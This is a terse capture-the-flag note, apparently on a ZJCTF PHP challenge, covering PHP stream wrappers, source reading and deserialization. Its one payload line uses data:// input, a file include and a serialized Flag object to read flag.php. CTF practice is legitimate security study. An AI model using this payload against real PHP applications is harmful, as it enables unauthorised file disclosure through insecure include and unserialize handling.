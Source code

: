php伪协议   以及   源码阅读 以及反序列化





data://text/plain;base64,





```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

